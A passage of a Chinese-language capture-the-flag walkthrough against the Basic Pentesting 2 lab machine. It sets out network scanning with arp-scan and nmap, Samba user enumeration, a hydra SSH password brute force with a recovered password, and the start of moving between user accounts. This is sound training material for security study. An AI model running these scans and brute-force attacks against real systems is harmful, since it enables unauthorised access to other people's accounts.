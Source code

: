 
##### 攻擊主機：Kali_Linux_2019.3 
##### 靶機：Basic_Pentesting_2.1

**Kali>** <code>arp-scan -l</code> (尋找靶機)<br/>
**Kali>** <code>nmap -A 192.168.203.132</code> (去看他開啟了甚麼port) <br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/587481ef-dc6a-4eb7-b822-6aaab8f60a39)
(我發現他開啟了22port，那就可以走簡單的ssh，也發現他有開samba 我選擇走enum4linux)<br/>
**Kali>** <code>enum4linux 192.168.203.132</code> (掃描，看看能掃到甚麼)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/934b796a-fdba-4e40-9714-ea289b312fed)<br/>
(得到兩個使用者帳號 Kay 和 Jan)<br/>
(Jan 權限較低，較好攻擊)<br/>
**kali>**  <code>hydra -l jan -P /usr/share/wordlists/rockyou.txt 192.168.203.132 ssh</code> (破解密碼)<br/>
(得到帳號jan的密碼：armando)<br/>
**kali>** <code>ssh jan@192.168.203.132</code>(連線到jan的帳號)<br/>
**Jan>** <code>sudo -l</code>(測試我的權限)(發現權限不足，改入侵kay)<br/>
**Jan>** <code>pwd</code>(查看我在哪裡)<br/>
**Jan>** <code>cd ..</code><br/>
**Jan>** <code>ls -al</code><br/>
**Jan>** <code>cd /home/kay</code>(移動到kay的檔案夾下)<br/>

